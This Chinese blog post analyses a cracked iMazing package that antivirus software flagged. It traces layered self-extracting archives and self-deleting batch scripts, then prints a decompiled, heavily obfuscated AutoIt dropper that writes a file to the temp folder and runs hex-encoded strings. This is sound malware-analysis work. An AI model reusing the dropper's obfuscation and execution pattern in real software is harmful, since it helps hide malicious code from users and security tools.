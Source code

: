 ```yaml
---
title: 分析iMazing_TNTCracked
description: 分析iMazing_TNTCracked
date: 2021-09-27 13:56:01+0800
categories:
    - Analyze
tags:
    - Analyze
    - Virus
    - Windows
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/分析iMazing_TNTCracked/)

## 缘起

想找个爱思助手的备份，找上了iMazing，兴起找到了TNT破解版的iMazing，从[此链接](https://www.tntmac.com/tag/imazing-for-mac-crack/)下载适用于Windows的iMazing后却发现被Windows11自带的杀毒软件报毒，于是起了想分析这个破解版的兴趣

## 分析

### 1、概览

![解压](https://i.loli.net/2021/10/11/o4TszgPHIcYji2G.png)

- 如图所示，解压后是一个官方安装包以及一个`Create__Fix.exe`，正是这个文件被报毒，以此展开调查

### 2、Create__Fix.exe

![压缩包](https://i.loli.net/2021/10/11/LXSnr6B7TtgvuRK.png)

- 拖入DIE，看到这个文件似乎是个压缩包，将它解压，内容如图所示

![又一个压缩包](https://i.loli.net/2021/10/11/lfKRim4QrjzaUYP.png)

- 其中有一个`Fix.exe`以及一个`iMazing_fix.bat`，但是这个bat打开是乱码，使用C32Asm来看一下十六进制格式内容，如图所示

![清楚了](https://i.loli.net/2021/10/11/cxYuqhaTLU9vElP.png)

- 这不是看的很清楚嘛，这个`iMazing_fix.bat`的运行流程如下
  - 第一步，运行`Fix.exe`，参数是`pt147147`和`-d%dir%`，这个写法让我感觉这是个压缩文件了，貌似还真是
  - 第二步，等待一秒
  - 第三步，删除`Fix.exe`和`iMazing_fix.bat`
- 我不禁好奇，是什么原因让它向千层饼看齐，一层又一层没完没了
- 如图所示，不出意料它又是一个RAR压缩文件

![不是吧又来](https://i.loli.net/2021/10/11/F9l2jZUYENfCuHz.png)

### 3、Fix.exe

- 解压缩，需要密码，我猜密码是`t147147`，哦猜对了，TNT团队并没有定制自己的解压工具，用WinRAR的sfx自解压模块传参解压，解压后如图所示

![又一个解压](https://i.loli.net/2021/10/11/lm6yzf5asNHcRbS.png)

- 解压后的文件分为三个，bat脚本依旧是被加密的状态，再次使用十六进制编辑器阅读它
- 经过DIE分析，`data.bin`是个可执行程序，将它重命名为`data.exe`
- 经过DIE分析，`v1`是个二进制文件，暂时无法识别

### 4、Created_By_TNT_Team.bat

![Created_By_TNT_Team.bat](https://i.loli.net/2021/10/11/GmCj7cvfk8N62WB.png)

- 如图所示，这个脚本文件做的操作是以下几步
  - 第一步，清理屏幕
  - 第二步，关闭回显
  - 第三步，运行`data.bin`这个可执行程序，参数是`v1`
  - 第四步，删除`v1`、`data.bin`、`Created_By_TNT_Team.bat`

### 4、data.exe和v1

- 这个`data.exe`重命名后就十分明了，它是AutoIt3的脚本运行器，那么`v1`不出所料就是一个AutoIt3的脚本，后缀应该是`a3x`
- `v1`是编译完成的au3脚本，我在GitHub上找到了一些反编译器，例如[UnAutoIt](https://github.com/x0r19x91/UnAutoIt)
- 如图所示，解压完毕，从v1中释放出来一个`iMazing.exe`以及一个脚本，此脚本混淆极其严重，几乎无法阅读
- 被修改后的`iMazing.exe`还附带原始的数字签名，尽管它已经失效，看起来它将会本地修改`iMazing.exe`，应该算是一个文件补丁，但是看起来哈希没什么变化...

![extra](https://i.loli.net/2021/10/11/9yFOsWujGwPJmQ6.png)

> 以下是反编译出来的一些有用的代码

```AutoIt3
Func a2f00001b21_()
    For $ax0x0xa = 0x1 To 0x5
        Local $a2f00001b21sz_ = a2f00001b21x_()
        FileInstall("d3c0ef51c80f467bc9002bbf93fcb10d0c917dbaae819ccd925e2f8902d3c9c5229702964c538605098cce34d2e9cc90ce0618992ba26caea18b5b5ccd9dd0acf02370c4bc004868283b8067c8309862" & _
            "cf2f70d92252928d02af9b1c7d80c3303522b08f2", $a2f00001b21sz_, 0x1)
        Global $a2f00001b21, $os = Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
            "3533333337333433373332333633393336343533363337333533333337333033363433333633393337333433323338333433363336333933363433333633353335333233363335333633313336333433" & _
            "3233383332333433343331333333323334333633333330333333303333333033333330333333313334333233333332333333313337333333373431333534363332333933323433333233373337343333" & _
            "33333333333338333333373334333933323337333234333333333133323339323732393239272929"))
        If IsArray($os) And $os[0x0] >= 0x46da Then ExitLoop
        Sleep(0xa)
    Next
    Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
        "3333313332343233343336333633393336343333363335333433343336333533363433333633353337333433363335333233383332333433343331333333323334333633333330333333303333333033" & _
        "3333303333333133343332333333323333333133373333333734313335343633323339323732393239272929"))
EndFunc    ; -> a2f00001b21_

Func a2f00001b21x_()
    Local $a2f00001b21s1_ = a2f00001b21("4054656D70446972"), $a2f00001b21s3_ = a2f00001b21("31"), $a2f00001b21s4_ = a2f00001b21("5c"), $a2f00001b21s5_ = a2f00001b21("5c"), $a2f00001b21s6_ = a2f00001b21("37"), $a2f00001b21s8_ = a2f00001b21("3937"), $a2f00001b21s9_ = a2f00001b21("313232"), $a2f00001b21s7_ = a2f00001b21("31"), $a2f00001b21sa_
    Local $a2f00001b21s2_ = Execute($a2f00001b21s1_)
    If StringRight($a2f00001b21s2_, Number($a2f00001b21s3_)) <> $a2f00001b21s4_ Then $a2f00001b21s2_ = $a2f00001b21s2_ & $a2f00001b21s5_
    SRandom(Number(StringRight(TimerInit(), 0x4)))
    Do
        $a2f00001b21sa_ = ''
        While StringLen($a2f00001b21sa_) < Number($a2f00001b21s6_)
            $a2f00001b21sa_ = $a2f00001b21sa_ & Chr(Random(Number($a2f00001b21s8_), Number($a2f00001b21s9_), Number($a2f00001b21s7_)))
        WEnd
        $a2f00001b21sa_ = $a2f00001b21s2_ & $a2f00001b21sa_
    Until Not FileExists($a2f00001b21sa_)
    Return ($a2f00001b21sa_)
EndFunc    ; -> a2f00001b21x_

Func a2f00001b21($a2f00001b21)
    Local $a2f00001b21_
    For $x = 0x1 To StringLen($a2f00001b21) Step 0x2
        $a2f00001b21_ &= Chr(Dec(StringMid($a2f00001b21, $x, 0x2)))
    Next
    Return $a2f00001b21_
EndFunc    ; -> a2f00001b21
```

## 结论

- 它应该什么都没干仅仅只是释放了一个可执行文件，但是这个释放方式实在是令人奇怪
- 它最后释放的`iMazing.exe`是并未破解的版本，事情更加奇怪了
